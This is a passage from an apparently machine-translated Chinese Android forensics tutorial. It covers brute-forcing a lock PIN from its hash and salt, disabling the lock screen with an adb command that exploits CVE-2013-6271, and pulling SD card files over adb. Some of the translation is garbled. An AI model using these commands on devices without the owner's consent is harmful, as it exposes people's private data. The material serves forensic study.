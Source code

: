 ```
sqlite> 

```

我们现在有了杂烩和盐。我们需要使用这两个工具对销钉施加强力。

[的人们 http://www.cclgroupltd.com](http://www.cclgroupltd.com) 已经编写了一个很好的 Python 脚本，可以使用哈希和 salt 对 PIN 进行暴力破解。这可以从以下链接下载，并且是免费的：

[http://www.cclgroupltd.com/product/android-pin-password-lock-tool/](http://www.cclgroupltd.com/product/android-pin-password-lock-tool/) 使用`BruteForceAndroidPin.py`文件运行以下命令：

```
Python BruteForceAndroidPin.py [hash] [salt] [max_length_of_PIN]

```

运行上述命令将显示 PIN，如下所示：

![Bypassing password/PIN using adb](../Images/image01563.jpeg)

破解此 PIN 所需的时间取决于用户设置的 PIN 的复杂性。

## 使用 CVE-2013-6271 绕过屏幕锁

### 注

注：此技术仅适用于 4.4 版之前的 Android 设备。尽管必须启用 USB 调试，但它不需要根用户访问。

2013 年，Curesec 披露了一个漏洞，该漏洞允许在 Android 设备上无需适当的用户交互即可清除锁屏。这基本上是`com.android.settings.ChooseLockGeneric`类中的一个漏洞。用户可以发送禁用任何类型屏幕锁定的意图：

```
$ adb shell am start -n com.android.settings/com.android.settings.ChooseLockGeneric --ez confirm_credentials false --ei lockscreen.password_type 0 --activity-clear-task

```

运行上述命令将禁用锁定屏幕。

# 从 SD 卡中拉取数据

当设备上启用 USB 调试时，我们可以将设备中的数据拉到本地机器上。如果设备没有根目录，我们仍然可以继续从 SD 卡中提取数据，如下所示：

```
$ adb shell
shell@e73g:/ $ cd /sdcard/
shell@e73g:/sdcard $ ls
Android
CallRecordings
DCIM
Download
Galaxy Note 3 Wallpapers
HyprmxShared
My Documents
Photo Grid
Pictures
Playlists
Ringtones
SHAREit
Sounds
Studio
WhatsApp
XiaoYing
__chartboost
bobble
com.flipkart.android
```